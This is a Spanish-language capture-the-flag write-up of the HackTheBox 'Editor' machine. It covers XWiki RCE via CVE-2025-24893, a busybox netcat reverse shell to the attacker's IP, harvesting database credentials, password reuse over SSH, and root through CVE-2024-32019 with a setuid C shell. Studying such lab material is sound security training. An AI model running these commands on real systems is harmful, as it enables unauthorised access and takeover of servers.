


# Editor

**Dificultad:** Easy  
**SO:** Linux  

## Metodología

### Reconocimiento inicial

#### Reconocimiento del SO y puertos con NMAP

Comprobamos que es una maquina linux por el ttl ~ 64.
Reconocimiento inicial con nmap.

```bash
ping -c 4 10.10.11.80
nmap -sS -p- --min-rate 5000 10.10.11.80 -oG allPortsEditor
nmap -sCV -p 22,80 -n -nP 10.10.11.80 -oA sondeoEditor
```


#### Actualizar /etc/hosts (actúa como dns local)

Asociamos el nombre del host (editor.htb) con su dirección IP (10.10.11.80).

```bash
nano /etc/hosts
```


### Reconocimiento web

#### Análisis con Wappalyzer

Permite identificar las `tecnologías` que se utilizan en esta `web`.


#### Enumeración de subdirectorios con Feroxbuster

Se ven redirecciones a `http://editor.htb:8080/xwiki/bin/login/XWiki/XWikiLogin`.

```bash
feroxbuster -u http://editor.htb:8080/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -C 404
```


#### XWiki Login

En la página de `login` de XWiki se observa la `versión XWiki Debian 15.10.8` (tambien se veía en la página principal pero había que scrollear pabajo o7).


### CVE-2025-24893 - RCE en XWiki

Vulnerabilidad de ejecución remota de código (RCE) en XWiki < 15.10.11, 16.4.1, 16.5.0RC1.

XWiki incluye una macro llamada `SolrSearch` (definida en Main.SolrSearchMacros) que permite la búsqueda de texto a través del motor Solr integrado. La vulnerabilidad se debe a la forma en que esta `macro evalúa` los parámetros de búsqueda en `Groovy`, al `no sanear ni restringir la entrada` maliciosa.

Un atacante puede `inyectar expresiones de Groovy` en la search query mediante una request GET y hacer que el `sistema evalúe codigo arbitrario` dentro del contexto del `servidor XWiki`.

En el endpoint vulnerable GET /xwiki/bin/view/Main/SolrSearch?search= un atacante puede inyectar código Groovy, provocando una `RCE` directa si la expresión Groovy incluye comandos a nivel de sistema.

[CVE-2025-24893](https://www.offsec.com/blog/cve-2025-24893/)

[dollarboysushil PoC](https://github.com/dollarboysushil/CVE-2025-24893-XWiki-Unauthenticated-RCE-Exploit-POC/blob/main/CVE-2025-24893-dbs.py)

#### Reverse shell

Ejecutamos el exploit y obtenemos una `reverse shell` como `xwiki`.

```bash
python exploit.py -t 'http://editor.htb:8080' -c 'busybox nc 10.10.16.22 1337 -e /bin/bash'
```


#### Tratamiento de la TTY

```bash
script /dev/null -c bash
CTRL + Z
stty raw -echo; fg
reset xterm
export SHELL=bash
export TERM=xterm
stty rows 40 columns 184
```

### Post-Explotación

En el `fichero /etc/xwiki/hibernate.cfg.xml` se encuentra la configuración de la base de datos de xwiki junto con las credenciales `xwiki:theEd1t0rTeam99`.


#### Enumerando DB

Enumerando la base de datos, se encuentra el usuario `neal` con su password, `hash:SHA-512:dac65976a9f09bcd15bd2c5c6eae4c43b06f316be7ae6b191db26580b1211bef:6b8f547e3742e998380da4f9d426773430a7982a946b9bfd94da0d7abe0d472c5ff08fcb8b0a908bc293da82298053ba348872099bd88f059a7838c38b670153`.

```bash
mysql -u xwiki -p 'theEd1t0rTeam99' -h localhost xwiki
```

```sql
SHOW TABLES;
DESCRIBE xwikistrings;
DESCRIBE xwikiobjects;
SELECT XWO_ID, XWO_NAME FROM xwikiobjects;
SELECT XWO_ID, XWO_NAME FROM xwikiobjects WHERE XWO_CLASSNAME = 'XWiki.XWikiUsers';
SELECT XWS_NAME, XWS_VALUE FROM xwikistrings WHERE XWS_ID = -5552625943482576562 AND XWS_NAME = 'password';
```


Según XWiki la `estructura de la password` es `Algoritmo:Salt:Hash`.

[Default password en xwiki](https://github.com/xwiki/xwiki-platform/security/advisories/GHSA-p6cp-6r35-32mh)

#### Hashcat

Al lanzar `hashcat` en modo `1710` ( `SHA512($salt.$pass)` ) para crackearlo por `diccionario` no pillé nada, entendiendo que por aquí no iba la cosa.


#### Recogiendo cuerda 

En el /home se puede ver que tenemos que `escalar a oliver`, por lo que intenté conectarme por ssh con la contraseña encontrada en el hibernate.cfg.xml (`theEd1t0rTeam99`) con éxito.



#### SSH

Nos conectamos por SSH con el usuario oliver.

```bash
ssh oliver@10.10.11.68
```


#### Escalada a root

Se observa que oliver puede ejecutar `ndsudo` con permisos de root (binario con SUID).


#### CVE-2024-32019 - Ndsudo local privilege escalation via untrusted search path

Se puede realizar la escalada `creando un ejecutable` cuyo `nombre` esté en la `lista de comandos de ndsudo`, después hay que `exportar el path` y lanzar el ejecutable con ndsudo.

Lo primero es ver que comandos se pueden ejecutar con ndsudo:


Es decir ambos `ejecutan el binario nvme` al lanzarlos y meten los `propios parámetros` del `comando` en cuestión.

```c
struct command {
    const char *name;
    const char *params;
    const char *search[MAX_SEARCH];
} allowed_commands[] = {
    {
        .name = "nvme-list",
        .params = "list --output-format=json",
        .search = {
            [0] = "nvme",
            [1] = NULL,
        },
    },
    {
        .name = "nvme-smart-log",
        .params = "smart-log {{device}} --output-format=json",
        .search = {
            [0] = "nvme",
            [1] = NULL,
        },
    }
};
```

[Estructura de comandos ndsudo](https://github.com/netdata/netdata/blob/master/src/collectors/utils/ndsudo.c)

#### Creando el ejecutable nvme

Con un simple programa en C podemos `forzar` a que use el `user (setuid) y group (setgid)` de `root` y lanzar lo que queramos.

```c
#include <stdlib.h>
#include <unistd.h>

int main() {
    setuid(0);
    setgid(0);
    system("/bin/bash -i");
    return 0;
}
```



### Limpieza del entorno

Una vez terminada la máquina, recuerda limpiar todos los archivos creados para mantener el entorno limpio.


